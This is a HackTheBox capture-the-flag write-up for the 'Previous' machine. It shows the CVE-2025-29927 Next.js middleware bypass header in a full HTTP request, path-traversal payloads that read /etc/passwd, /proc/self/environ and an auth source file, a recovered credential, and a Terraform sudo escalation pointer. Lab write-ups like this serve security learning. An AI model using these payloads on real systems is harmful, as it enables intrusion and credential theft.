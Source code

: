 ```yaml
---
title: "HackTheBox Previous Writeup"
date: 2025-09-22
categories: [HTB, Writeup]
tags: [Linux, terraform,CVE]
image:
  path: /assets/previous-htb/logo.png
  lqip: data:image/webp;base64,UklGRpoAAABXRUJQVlA4WAoAAAAQAAAADwAABwAAQUxQSDIAAAARL0AmbZurmr57yyIiqE8oiG0bejIYEQTgqiDA9vqnsUSI6H+oAERp2HZ65qP/VIAWAFZQOCBCAAAA8AEAnQEqEAAIAAVAfCWkAALp8sF8rgRgAP7o9FDvMCkMde9PK7euH5M1m6VWoDXf2FkP3BqV0ZYbO6NA/VFIAAAA
  alt: "Previous HTB — blog writeup cover"
---
```



## Nmap Scan

I started with a full port scan:
```shell
sudo nmap 10.10.11.83 -T4 -A -open -p-
```
![nmap](/assets/previous-htb/nmap.png)
the scan showed a web server running on port 80. There’s a login page and on it, I found an email: ```jeremy@previous.htb```
- tried using tools to brute force the login with jeremy as the username.
- I looked for ways to bypass the login  maybe a logic flaw, or something in the JavaScript.
- I found some interesting paths but they all needed me to be logged in first.<br>
Stuck? Maybe. But not for long.

```PreviousJS``` That Name Sounds Familiar The website uses something called ```PreviousJS.```.<br>
 I remembered  there was a recent vulnerability ```CVE-2025-29927```

## CVE-2025-29927

Found in March by ```Allam Yasser (@inzo_)``` and his friend ```Allam Rachid (@zhero_)```.<br>
You can read more about it here:<br>[https://github.com/aydinnyunus/CVE-2025-29927](https://github.com/aydinnyunus/CVE-2025-29927)<br>
This CVE lets you bypass authentication by sending a special header.
The Magic Header To get past the login, I added this header to my request:
```shell
X-Middleware-Subrequest: middleware:middleware:middleware:middleware:middleware
```
Example request:

```shell
GET /_next/data/qVDR2cKpRgqCslEh-llk9/docs.json HTTP/1.1
Host: previous.htb
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/133.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Accept-Encoding: gzip, deflate, br
Connection: keep-alive
X-Middleware-Subrequest: middleware:middleware:middleware:middleware:middleware
Content-Type: text/html
Upgrade-Insecure-Requests: 1
If-None-Match: "17m2fyh3hl048k"
Priority: u=0, i
```
And just like that I got access to pages that should have been locked behind login
![access](/assets/previous-htb/access.png)

## Hidden Paths & LFI

Found Interesting Paths After bypassing the login, I checked this file which exist in by reading source code:
```shell
http://previous.htb/_next/static/qVDR2cKpRgqCslEh-llk9/_buildManifest.js
```
![hidden](/assets/previous-htb/hidden.png)
Inside, I found a list of internal paths:
```shell
/
/_error
/docs
/docs/components/layout
/docs/components/sidebar
/docs/content/examples
/docs/content/getting-started
/docs/[section]
/signin
```
These are not just links they’re a map of the app’s structure Very useful for knowing where to look next.<br>
Found a Download Endpoint The I found this:
![helloworld](/assets/previous-htb/helloworld.png)
which by reading source code I found endpoint:
![endpoint](/assets/previous-htb/endpoint.png)

It lets users download files. That’s interesting and often dangerous.<br>
When you see “download” + user input?<br>
Think: Local File Inclusion (LFI).

I tested with:
```shell
/api/download?example=../../../../etc/passwd
```
It returned the contents of /etc/passwd.
![passwd](/assets/previous-htb/passwd.png)

## Next.js & User.txt

I confirmed that the server is running a ```Next.js``` application, likely under the user ```nextjs``` or ```node```. <br>
This tells us the backend environment and helps us focus our next steps.<br>
In Linux, each running process has a special file:
```shell
/proc/self/environ
```
This file contains all environment variables for the current process in our case, the ```Next.js```server.<br> I accessed it using our LFI:
```shell
/api/download?example=../../../../proc/self/environ
```
![environ](/assets/previous-htb/environ.png)
The output showed us important details:

- Working directory: ```PWD=/app```
- Possibly sensitive values like API keys or database passwords
- The word “self” means: “the process currently handling this request” which is the ``` Next.js``` server.

This is a major win. I now know the application lives in ```/app```.<br>
With ```/app``` as our root, I can now look for key files and folders that define how the ```Next.js``` app works.

Based on ```Next.js``` [documentation](https://nextjs.org/docs/app/getting-started/project-structure), I expect to find:
- ```.next/``` compiled files, server code, and routing info
- ```routes-manifest.json``` lists all routes, rewrites, and redirects
- Special files like ```middleware.js```, ```next.config.js```, and ```API routes```<br>

So I focused on the ```.next``` folder because it holds backend logic including compiled server-side code.<br>
Inside ```.next/routes-manifest.json/```i found:
![routes](/assets/previous-htb/routes.png)
This file handles authentication logic how users log in, how sessions are managed, and where credentials are checked.
We read its contents through LFI:
```shell
/api/download?example=../../../../app/.next/server/pages/api/auth/[...nextauth].js
```
Inside, we found hardcoded credentials:
![creds](/assets/previous-htb/creds.png)
```shell
jeremy:MyNameIsJeremyAndILovePancakes
```
![user](/assets/previous-htb/user.png)


##  Root.txt

After gaining access as the user ```jeremy```, I ran linpeas.sh to look for possible privilege escalation paths.<br>
The scan did not highlight anything obvious, so I manually checked what commands the user can run with sudo.
```shell
sudo -l
```
Showed that jeremy can run Terraform as root:
![terraform](/assets/previous-htb/terraform.png)
This is a strong lead  being able to run Terraform with root privileges in a specific directory often opens the door to code execution as root, especially if environment variables are not properly restricted.

I searched for known exploits related to ```sudo + Terraform``` and found a detailed write-up:
[https://dollarboysushil.com/posts/Terraform-Sudo-Exploit-Privilege-Escalation/](https://dollarboysushil.com/posts/Terraform-Sudo-Exploit-Privilege-Escalation/)

The article explains how to abuse Terraform’s ```provider_installation``` and the ```TF_CLI_CONFIG_FILE``` environment variable to force Terraform to load and execute a malicious provider script as root.<br>

> JUST GO THROUGH WITH ARATICAL AND GET EASY ROOT
{: .prompt-info }